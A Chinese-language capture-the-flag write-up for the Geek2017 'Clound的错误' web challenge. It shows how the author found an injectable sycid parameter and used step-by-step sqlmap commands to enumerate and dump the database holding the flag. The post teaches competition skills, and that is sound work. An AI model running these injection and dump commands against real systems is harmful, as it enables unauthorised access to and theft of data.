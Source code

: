```yaml
---
layout:     post
title:      geek2017wp
subtitle:   
date:       2017-11-18
author:     FNX
header-img: img/post-bg-ios10.jpg
catalog: true
tags:
    - WP
    - Geek2017
    - WEB
---
```


## Geek2017

# Clound的错误

#### 0x00 [原理]
     kali虚拟机下的命令运用，sqlmap的使用
     
#### 0x01 [目的]
     了解kali系统下sqlmap的使用
     
#### 0x02 [环境]
     kali
     
#### 0x03 [工具]
     sqlmap
     
#### 0x04 [步骤]

1.首先打开address，是一张可爱的图片啊啊啊啊～并没有什么提示

![](/img/clound1.png)

2.右键查看源代码，有注入点的提示： sycid=1

![](/img/clound2.png)

3.http://game.sycsec.com:2007/?sycid=1

![](/img/clound3.png)

出现hint：select * from user where id='1'

4.使用sqlmap注入
  ①检测注入点是否可用:sqlmap -u "http://game.sycsec.com:2007/?sycid=1"  

  ![](/img/clound4.png)</br>

  ②暴库:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" --dbs 

  ![](/img/clound5.png)

  库名：f1ag

  ③暴表:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag --tables

  ![](/img/clound6.png)
  
  表名：flag

  ④暴字段:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag --columns

  ![](/img/clound7.png)
  
  字段：f4ag 
  
  ⑤暴字段内容:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag -C f4ag --dump
  
  ![](/img/clound8.png)
  
  字段内容：SYC{Err0r_sql_inj}
  
4.flag：SYC{Err0r_sql_inj}



#### 0x05 [总结]

  sqlmap使用

  详细可参考：[手工注入](https://www.2cto.com/article/201208/151503.html) [sqlmap基本教程](http://blog.csdn.net/zgyulongfei/article/details/41017493)





